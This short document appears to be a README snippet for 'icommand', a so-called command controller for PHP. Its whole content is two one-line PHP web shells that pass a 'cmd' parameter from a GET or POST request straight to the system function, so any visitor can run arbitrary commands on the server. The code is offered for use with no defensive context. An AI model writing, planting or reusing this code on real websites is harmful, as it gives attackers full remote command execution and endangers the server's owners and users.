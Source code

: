 ### icommand - command controller for PHP system function
- - -
<p>icommand works for **POST** and **GET** requests
	<?php system($_GET['cmd']); ?>
	<?php system($_POST['cmd']); ?>

